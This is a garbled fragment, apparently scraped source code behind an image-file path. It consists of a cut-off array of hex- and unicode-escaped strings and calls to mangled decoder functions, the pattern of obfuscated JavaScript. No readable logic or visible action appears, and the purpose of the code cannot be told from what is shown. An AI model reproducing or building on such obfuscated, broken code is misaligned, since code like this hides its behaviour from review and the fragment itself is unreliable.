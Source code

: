 x60\x7b\x6e\x4a\x6c\x37\x47','\u0072\u006a\u0061\u0030\u006f','M[)6v','4?T%GLOpo1(fc',scLZ44x(0x7),'\x22\x50\x69\x70\x4e\x3b\x60\x7b\x6e\x4a\x6c\x37\x62\x50\x35\x22\x22\x6b\x6d\x77\x5f\x44\x3c\x75\x46',scLZ44x(0x10),'\x71\x3c\x6f\x7d\x33',scLZ44x(0x11),'\u0035\u0042\u0079\u0022\u0065\u005b\u0036\u005b\u0022\u0060\u003e\u0036\u005a\u0071\u006b\u0066\u0041\u004c\u007a\u005b\u0026\u0025\u0022\u004d\u002f\u007c\u005e\u0032\u0061\u0049\u002f\u002c\u0024\u0047\u0032\u0037\u0066\u0039\u003d\u0043\u002b\u0055\u0034\u004a\u0061\u003a\u004e\u0061\u0028\u0047\u0065\u002f\u005f\u0074\u0025\u003b\u005a\u0075\u006b\u0077\u0078\u0040\u0070\u0041\u0045\u0042\u007e\u0022\u0063\u0069\u0061\u0043\u006d\u0029\u0036\u005f\u006a\u0022\u006b\u0039\u0064\u004f\u0048\u0024\u0048\u006e\u0063',scLZ44x(0x12),'\u0039\u0056\u0075\u0054\u0045\u003c\u007d\u003c\u0054\u0025\u0073\u007d\u0067\u0049\u0035\u0037\u002e\u003b\u004d\u003c\u006b\u0070\u0054\u0071\u004c\u0079\u003e\u005f\u005d\u0024\u004c\u0065\u0042\u004e\u005f\u0074\u0037\u0052\u0040\u0051\u0053\u0059\u0022\u0063\u005d\u007c\u0041\u005d\u006c\u004e\u0045\u004c\u002c\u0044\u0070\u0043\u0067\u002f\u0035\u005e\u006a\u0031\u007b\u002e\u0076\u0056\u0036\u0054\u0047\u0029\u005d\u0051\u0061\u006f\u007d\u002c\u0034\u0054\u0035\u0052\u003a\u0060\u004b\u0042\u004b\u0030\u0047',scLZ44x(0x13),':&u1%','\x3f\x25\x75\x31\x73\x66\x26\x22\x2e\x61\x56\x4f\x26\x63\x62\x29\x46\x6a\x7d\x53\x6f',':&u1%',LaGO_Z(-0x3e),scLZ44x(LaGO_Z(0x3)),'\x7b\x50\x59\x31\x30\x66\x4a\x72','w=_F',LaGO_Z(-0x45),LaGO_Z(-0x3b),scLZ44x(0x15),'\u0026\u0025\u0067\u002b\u0078\u0048\u0053\u0057\u007c\u0077\u005e\u006f\u005a\u006f\u004e\u0032\u005a\u0023\u007a',scLZ44x(0x16),scLZ44x(LaGO_Z(-0x46)),'}&f%y7t}[Eh;Qj42$[#K|kj}mE/s>/]~twRz3',scLZ44x(LaGO_Z(-0x3)),'\x2c\x36\x46\x61\x6c\x2b\x37\x69\x57\x77\x35\x74\x63','\u006a\u003c\u007b\u0071\u0078\u003e\u0055\u0058\u0053\u005d\u0064\u0069\u0031\u0072\u0031\u003d\u006f\u0025\u0069\u0070\u0053\u0066\u002e\u0068\u0069\u0041\u0049\u003a\u004c\u004e\u0060\u0054\u007a\u002e\u004a\u0041\u006f\u004c\u0046\u0052\u0049\u0070\u006f\u0034\u005f\u0047\u003d\u0068\u0052\u006f\u0022\u006f\u0060\u0066\u002b\u0035\u003e\u004f\u007a\u0062\u0046\u003f\u0072\u005f\u003c\u003c\u005e\u007c\u0074\u003f\u0052\u005e\u0045\u0070\u0029\u0032\u0033\u004d\u002c\u0036\u003b\u0073\u0052\u004d\u006a\u003e\u004a\u0069\u006d\u005e\u0072\u0031\u0068\u003f\u0035\u005f\u006e\u0025\u0053\u0038\u0036\u0044\u0067\u0060\u0078\u0069\u0026\u0043\u003d\u0072\u0041\u0068\u007a\u002e\u0041\u006a\u0056\u0030\u0041\u0047\u005a\u0063\u002b\u005d\u0079\u0025\u0046\u005f\u007d\u0063\u0047\u007c\u002e\u0030\u0037\u0073\u004c\u007e\u0047\u0049\u003a\u0034\u0025\u005e\u003f\u004f\u0041\u006a\u0056\u0030\u005b\u005e\u0069\u0070\u0023\u0069\u007c\u007b\u0040','\x7d\x25\x61\x30\x53\x66\x46\x6f\x46',LaGO_Z(-0x44),scLZ44x(LaGO_Z(0x5)),'\x3e\x32\x48\x29\x44\x79\x44\x44\x47',scLZ44x(LaGO_Z(0x7)),scLZ44x(0x1b),'\u0039\u007a\u004a\u006e\u0051\u0071\u0022\u0043\u0061\u0030','\u0065\u0060\u007b\u005e\u004a\u004b\u0029\u0057\u0057\u0077','A/Gt.%_jL